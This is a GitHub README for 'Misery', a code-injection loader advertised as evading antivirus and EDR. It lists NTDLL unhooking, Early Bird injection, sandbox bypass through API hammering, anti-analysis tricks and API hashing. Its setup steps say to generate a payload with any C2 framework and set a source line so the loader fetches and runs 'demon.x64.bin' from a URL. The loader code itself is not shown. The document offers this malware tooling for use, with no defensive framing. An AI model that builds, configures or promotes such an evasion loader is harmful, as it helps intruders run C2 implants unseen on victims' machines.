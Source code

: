# Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

<br>

<p>
    <img src="https://img.shields.io/github/license/hackforyourentertainment/Misery?color=green&logo=github&style=for-the-badge">
    <img src="https://img.shields.io/github/issues/hackforyourentertainment/Misery?color=green&logo=github&style=for-the-badge">
    <img src="https://img.shields.io/github/stars/hackforyourentertainment/Misery?color=green&logo=github&style=for-the-badge">
    <img src="https://img.shields.io/github/forks/hackforyourentertainment/Misery?color=green&logo=github&style=for-the-badge">
    <img src="https://img.shields.io/github/v/release/hackforyourentertainment/Misery?color=green&logo=github&style=for-the-badge">
    <img src="https://img.shields.io/github/languages/code-size/hackforyourentertainment/Misery?color=green&logo=github&style=for-the-badge">
</p>

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass(Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
---

### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"



